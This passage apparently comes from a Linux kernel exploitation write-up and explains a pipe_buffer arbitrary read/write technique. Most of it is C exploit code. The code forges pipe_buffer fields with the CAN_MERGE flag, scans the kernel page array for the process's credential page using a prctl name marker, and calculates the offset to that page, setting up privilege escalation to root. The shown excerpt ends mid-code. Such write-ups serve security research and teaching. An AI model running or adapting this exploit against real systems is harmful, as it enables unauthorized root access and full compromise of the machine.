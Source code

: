 ## Read/Write with pipe_buffer

This technique is well detailed in [this](https://www.interruptlabs.co.uk/articles/pipe-buffer) excellent write-up, which serves as a good reference. But, I am going to give another perspective, where we will achieve to exploit 100% of the cases. We are going to carry out the following steps:

* Deduce vmemmap_base.
* Find the position of a handleable pipe_buffer (the buffers were initialized with 0xcc bytes).
* Search at the page array for the page of the process credentials (reading with page manipulation).

```C
char buf[4096] = {0};
char buf_c[8] = { [0 ... 7] = 0xcc };

char *name = "exp1337";
prctl(PR_SET_NAME, name, 0, 0, 0);
/* Searching for credentials page */	
for (uint64_t i = 0; i < 0x10000; i++) {
	// map in /proc/iomem
	page = (mem_map + ((0x100000000 >> 12) * 0x40)) + (0x40 * i);
	fakepipe->page = page;
	fakepipe->offset = 0;
	fakepipe->len = 4096 + 1; // To avoid release
	fakepipe->flags = PIPE_BUF_FLAG_CAN_MERGE;
	
	if (!pos) {
		for (int j = 0; j < MAX_PIPES; j++) {
			n = read(pipefd[j][0], buf, 4096);
			
			if (n < 0 || strncmp(buf, buf_c, 8)) {
				printf("[+] pipe fd found at %dth\n", j);
				pos = j;
				break;
			}
			
			bzero(buf, 4096);
		}
	} else {
		bzero(buf, 4096);
		n = read(pipefd[pos][0], buf, 4096);
	}
	
	if (n != 4096) continue;
	
	char *off = memmem(buf, 4096, name, strlen(name));
```
* Deduce the page creds. In this way, we will always find the distance to the credentials page.

```C
if (off) { 
	uint64_t creds = 0, real_creds = 0;
	
	creds      = *(uint64_t *) (off - 16);
	real_creds = *(uint64_t *) (off - 24);
	
	if (creds && real_creds && creds == real_creds) {
		puts("[+] Creds found!!");
		
		char zeroes[0x20] = { [0 ... 0x1f] = 0 };
		uint64_t task = (*(uint64_t *) (off - 320)) - 0xb8;
		uint64_t cred_page = 0;
		/* In this way, we will find the distance to the credentials page */
		if (task > creds) {
			cred_page = page - ((task >> 12) - (creds >> 12)) * 0x40;
```